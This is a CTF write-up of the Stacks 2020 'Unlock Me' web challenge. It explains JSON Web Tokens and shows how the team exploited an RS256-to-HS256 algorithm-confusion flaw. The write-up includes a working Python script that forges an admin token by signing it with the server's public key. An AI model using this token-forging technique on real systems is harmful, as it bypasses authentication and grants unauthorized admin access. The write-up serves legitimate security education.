










# [Stacks 2020 CTF] Unlock Me - Web

## <u>Challenge Text</u>

<br>
<p align="center">
<br>
<i>Unlock Me - Challenge Text</i>
</p>

## <u>Introduction</u>
This is the write-up for the Unlock Me Web Challenge from the team **Ov3rWr1t3**.

Unlock Me was a 1000 point challenge. Credentials were provided right off the bat, along with a login page with the URL of `http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/`.

## <u>Solution</u>

##### Initial login attempt
Right away, we attempted to login to the panel with the given credentials to see what would happen. We were greeted with the following message.

<br>
<p align="center">
<br>
<i>Failed login message</i>
</p>
<br>

_Ah_, it seems that there is Role Based Access Control of some sorts being implemented on the login API. Perhaps we could get more information by intercepting the request on Burpsuite?

<br>
<p align="center">
<br>
<i>Successful Login Response</i>
</p>
<br>

How _interesting_. An authorization header with a Bearer token? This indicates the usage of JWTs.

##### JSON Web Tokens (JWTs)
For those who are not familiar with the concept of JWTs, here's a quick run-through. For a more detailed explanation on JWTs, you may visit this [page](https://jwt.io/introduction/), which goes into much more depth. JWTs are a compact and self-contained method to transmit JSON objects between parties, such as a client and server. 

<br>
<p align="center">
<br>
<i>Illustration of JWT</i>
</p>
<br>

When you successfully login to a Web Application, the server will generate a JWT for that specific login session and send it to the client in the Response. The server does so by setting a header, known as the authorization header, with the word "Bearer" concatenated with the value of the JWT. 

From this point on, everytime the client requests access to any resource on the server, the request must contain this authorization header containing the JWT. Otherwise, access will be denied to the client. However, like in this case, simply having a valid JWT may not be enough to be granted access to a resource.

<br>
<p align="center">
<br>
<i>Illustration of Client/Server communication with JWTs</i>
</p>
<br>

JWTs contain something known as "claims". Claims are basically a key/value pair that is contained within the payload of JWT. JWTs are typically not encrypted, and are simply in `base64`, allowing us to easily read what's inside any typical JWT we receive. Encryption is not really a concern because any sensitive data are not supposed to be stored within a JWT in the first place. Additionally, JWTs contain a **Signature**, and any modifications made to a JWT will invalidate it, which will cause the server to reject it.

The JWT that we received from the server can be seen to have a claim for the user's role. We can therefore infer that this value is what they use to perform their Role Based Access Control. It is clear that we need to modify this claim and somehow get the server to still think that the Signature is valid.

<br>
<p align="center">
<br>
<i>Contents of the JWT received from the login page of the Challenge</i>
</p>
<br>

If we simply modify the JWT, the Signature will be invalidated.

<br>
<p align="center">
<br>
<i>Contents of the JWT received from the login page of the Challenge</i>
</p>
<br>

##### Vulnerability
We decided to try inspecting the element of the login page, and noticed this little gem.

<br>
<p align="center">
<br>
<i>Comment within the body of the page</i>
</p>
<br>

This was surely a hint. Alright, so now we know the vulnerability had something to do with the Public Key used to sign the JWT. This led to us wondering, how do we get the Public Key? An idea popped into our heads; What if we just tried to access the resource directly on the website? We entered ```http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/public.pem``` and promptly received a download for their public key.

Now we had the key, but we still had no idea what to do with it. After doing some research, we discovered that JWTs indeed had a few vulnerabilities that could be exploited. More specifically, we would be exploiting the signing algorithm defined in the header. Notice how the JWT we decoded from the login page shows that RS256 was used to sign it.

RS256 utilizes RSA with SHA-256 to sign the token. Typically, the signing (encryption) is done by using the **Private Key** of the server, while the verification (decryption) of the JWT is done by using the **Public Key** of the server. Meanwhile, another algorithm supported by JWT, known as HS256, utilizes HMAC with SHA-256 to sign the JWT. The main difference is that HS256 uses **Symmetric Key Encryption**. This means that both its signing and verification are done with one single key. This will be the key to the exploit.

If the server does not check what algorithm was used to initially sign the JWT, another algorithm can be specified for the server to use when verifying it. Therefore, if we change the algorithm in the header to HS256, the server will attempt to **use its Private Key to verify the JWT instead of using its Public Key**. This is because the server signed the JWT with its Private Key, and since it believes the algorithm was HS256, it will use the same key to verify the JWT.

All we have to do is create a token and sign it with the Public Key that we received earlier from the server.

##### Exploit
We found a video explaining and showcasing the exploit and made the following Python Script to generate our forged token.
```python
import base64, hmac, hashlib

with open("public.pem", 'r') as f:
    pubkey = f.read()

header = '{"alg":"HS256"}'
payload = '{"user":"minion","role":"admin","iat": 1607098377}'

headerBytes = base64.urlsafe_b64encode(header.encode('utf-8'))
encodedHeader = str(headerBytes, "utf-8").rstrip("=")

payloadBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(payloadBytes, "utf-8").rstrip("=")

token = (encodedHeader + "." + encodedPayload)

signature = base64.urlsafe_b64encode(hmac.new(bytes(pubkey, "UTF-8"), token.encode("utf-8"),hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

jwt = token+"."+signature
print(jwt)
```
With that, we ran the script and obtained our forged JWT.

<br>
<p align="center">
<br>
<i>Forged JWT</i>
</p>
<br>

We used Burpsuite to set this as our JWT in the Response received from the login page.

<br>
<p align="center">
<br>
<i>Intercepted Response from the login page with the newly forged JWT</i>
</p>
<br>

_Viola_, we have successfully logged in and received the flag, `govtech-csg{5!gN_0F_+h3_T!m3S}`.

<br>
<p align="center">
<br>
<i>Successfully logged in and received the flag</i>
</p>
<br>

## <u>Conclusion</u>

JWTs may be a basic concept to those with experience in the Web Industry, and this challenge may seem easy, but it took us hours of thinking, experimenting, researching, and _maybe_ some whisky, to crack. Overall, it was a really fun and interesting experience! The _satisfaction_ of completing a challenge that you took hours to solve is hard to beat.

If you found the challenge to be...well..._challenging_, don't worry, we did too. Everyone starts from somewhere, and each time you fail, you learn something new. Participating in more CTFs and similar events help expose you to many things you would never have known or seen, as well as occasionally introducing you to some great new tools!

The point is, don't give up, and you'll reach your goals one day! I hope you enjoyed reading this write up and found it to be informative and well-written.

## <u>Resources</u>
- [Introduction to JSON Web Tokens](https://jwt.io/introduction/)
- [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
- [How to Exploit "Json Web Token"(JWT) vulnerabilities | Full Practical](https://youtu.be/IYZeVdXeUro)

By _Bacon Potato Cat_
